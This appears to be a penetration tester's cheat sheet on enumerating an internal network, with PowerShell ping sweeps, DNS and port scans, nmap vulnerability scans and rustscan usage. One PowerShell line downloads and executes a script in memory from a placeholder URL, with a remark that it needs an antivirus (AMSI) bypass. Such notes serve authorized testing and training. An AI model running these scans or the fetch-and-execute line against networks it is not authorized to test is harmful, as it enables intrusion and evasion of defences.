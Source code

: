 
There are multiple ways to enumerate the network, but here are a couple different methods that don't require any tunneling or port forwarding.

### Powershell
---

```powershell
# See other computers that have touched the current one in some way
net view

# View networking information (including if the box is dual NIC'd)
ipconfig /all

# /24 Ping Sweep
$TargetNetwork = "<first.three.octets>"
1..255 | % {echo "$TargetNetwork.$_"; ping -n 1 -w 100 "$TargetNetwork.$_" | Select-String ttl}

# /24 NSLOOKUP Scan
$TargetNetwork = "<first.three.octets>"
1..255 | % {echo "IP: $TargetNetwork.$_"; nslookup "$TargetNetwork.$_" | Select-String Name >> 192-168-1-0.txt}

# 1024 Port Scan (Very Slow)
$TargetIP = "<ip_address>"
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect($TargetIP,$_)) "Port $_ is open!"} 2>$null

# Load "Invoke-PortScan.ps1" into session.  
# - Already on Kali, or can be downloaded from: https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1
# - Requires AMSI bypass or disabled AV
iex ([System.Net.WebClient]::new().DownloadString('<script_url>'))
Invoke-Portscan -Hosts 192.168.1.1/24 -TopPorts 25
```


### Nmap
---
- TCP Scan ALL ports, get OS info, and do a vulnerability scan
```bash
sudo nmap <hostname or IP/CIDR> -p- -A --script vuln
```

If above returns nothing, attempt a UDP scan.  Either add ``-Pn`` or ``-sU`` for a UDP scan.

- UDP Scan
```bash
nmap -sU <hostname or ip/CIDR>
```


### Rustscan
---
``rustscan`` is effectively a wrapper for ``nmap`` written in rust -- by default it rapidly scans ALL ports then feeds the up ports to ``nmap`` for a more granular enumeration.

##### Installation
```shell
# Install Rust and Cargo
curl https://sh.rustup.rs -sSf | sh
rustup
# Install Rustscan
cargo install rustscan
```

##### Usage
```bash
rustscan -a <hostname or IP/CIDR> --ulimit 500 -- <nmap_args>
# -a = target address(s) / network
# -u = adjusts the amount of open sockets at a given time
# -- = pass nmap arguments to rustscan
```
- Note: ``ulimit`` of 500 slows the scan down, but prevents (rare) false positives

```shell
# Example:
rustscan -a 192.168.108.124 -u 500 -- -A --script vuln
```
![[Pasted image 20230306133814.png]]
